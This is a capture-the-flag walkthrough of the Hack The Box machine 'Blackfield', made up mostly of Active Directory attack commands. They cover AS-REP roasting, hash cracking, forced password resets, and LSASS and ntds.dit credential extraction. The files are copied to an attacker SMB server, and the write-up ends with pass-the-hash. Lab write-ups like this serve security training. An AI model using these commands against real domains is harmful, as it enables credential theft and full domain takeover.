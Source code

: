 # [Blackfield](https://app.hackthebox.com/machines/blackfield)

```bash
nmap -p- --min-rate 10000 10.10.10.192 -Pn
```

![Alt text](img/image.png)


After knowing open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,135,139,445,5985 10.10.10.192
```
![Alt text](img/image-2.png)


I add this ip address into **'/etc/hosts'** file as `blackfield.local`

Let's enumereate SMB share via `smbmap` tool.

```bash
smbmap -H 10.10.10.192 -u guest -p ''
```

![Alt text](img/image-1.png)


Let's login into SMB Share called '**profiles$**' via `smbclient` tool.
```bash
smbclient -N //10.10.10.192/profiles$
```

![Alt text](img/image-3.png)


There's tons of users, let's get all of them to check `AS-Rep Roasting` attack.

1.I get copy for all of users, then via regex I just got only usernames.
```bash
cat users.txt | cut -d ' ' -f3 > users
```
![Alt text](img/image-4.png)


2.Let's do loop for each user in users file and we will use `GetNPUsers.py` script of `Impacket` module.

```bash
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.192 blackfield.local/$user | grep krb5asrep; done
```

![Alt text](img/image-5.png)


Let's grab this hash and crack via `hashcat` tool.

```bash
hashcat -m 18200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![Alt text](img/image-6.png)



That's credentials of `support` user.

support: #00^BlackKnight


Let's check this credentials against SMB via `crackmapexec` tool.
```bash
crackmapexec smb 10.10.10.192 -u support -p '#00^BlackKnight' --shares
```

![Alt text](img/image-7.png)


I cannot find interesting stuff here, that's why I use `bloodhound` to enumerate.


1.First, let's dump all domain data.

```bash
bloodhound-python -c ALL -u support -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -ns 10.10.10.192
```

![Alt text](img/image-8.png)

2.Then start `neo4j console` and type `bloodhound` to upload `.json` data.

![Alt text](img/image-9.png)



I just enumerate one thing that my current user `support` has a privilege called '**ForceChangePassword**' against 'audit2020' user.

![Alt text](img/image-10.png)


But I don't have proper shell, but I can change password via `RPC` by reading this [blog](https://room362.com/posts/2017/reset-ad-user-password-with-linux/).


1.First, I need to connect into RPC
```bash
rpcclient -U 'blackfield.local/support%#00^BlackKnight' 10.10.10.192
```

2.Second, I need to change password .

```bash
setuserinfo2 audit2020 23 'dr4ks!!'
```

![Alt text](img/image-11.png)


Let's check this credentials that worked or not via `crackmapexec` tool. And we look also SMB Share if it is possible.

```bash
crackmapexec smb 10.10.10.192 -u audit2020 -p 'dr4ks!!' --shares
```

![Alt text](img/image-12.png)


Now, I connect into SMB via this credentials. I select `forensic` share
```bash
smbclient -U '10.10.10.192\audit2020' //10.10.10.192/forensic
```

This way is long, that's why I open File Browser and put `smb://10.10.10.192/forensic` and type credentials for `audit2020` user.

![Alt text](img/image-13.png)


I got `lsass.zip` file from `memory_analysis` folder.


I unzip this file and got `lsass.DMP` file , to get credentials from here I will use [pypykatz](https://pypi.org/project/pypykatz/)

```bash
pypykatz lsa minidump lsass.DMP
```

![Alt text](img/image-14.png)


From here, I got NTLM hash of `svc_backup` user.

svc_backup: 9658d1d1dcd9250115e2205d9f48400d


Let's login into machine via this credentials by using `evil-winrm` tool.

```bash
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

user.txt

![Alt text](img/image-15.png)


I looked at this user's privileges via `whoami /priv` command and see that '**SeBackupPrivilege**' is enabled.

![Alt text](img/image-16.png)


I will use this [blog](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/) to abuse this privilege


1.First, we need to create `dr4ks.dsh` file with below content.
```bash
set context persistent nowriters
add volume c: alias dr4ks
create
expose %dr4ks% z:
```

2.Then we need to convert this script via `unix2dos` command.
```bash
unix2dos dr4ks.dsh
```

![Alt text](img/image-17.png)

3.Then upload into machine and run below commands.
```bash
upload dr4ks.dsh
diskshadow /s dr4ks.dsh
robocopy /b z:\windows\ntds . ntds.dit
```

![Alt text](img/image-18.png)

4.Then open SMB server to transfer this files into your local machine.
```bash
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support
```

![Alt text](img/image-20.png)

5.Then copy files (system and ntds.dit) to your machine.
```bash
reg.exe save hklm\system \\10.10.14.5\share\system
copy C:\ProgramData\ntds.dit \\10.10.14.5\share\ntds.dit
```


I grab administrator hash by running `secretsdump.py` script of `Impacket` module
```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -system system -ntds ntds.dit LOCAL
```

![Alt text](img/image-19.png)


Let's do `Pass-The-Hash` attack via `evil-winrm` tool.
```bash
evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
```


root.txt

![Alt text](img/image-21.png)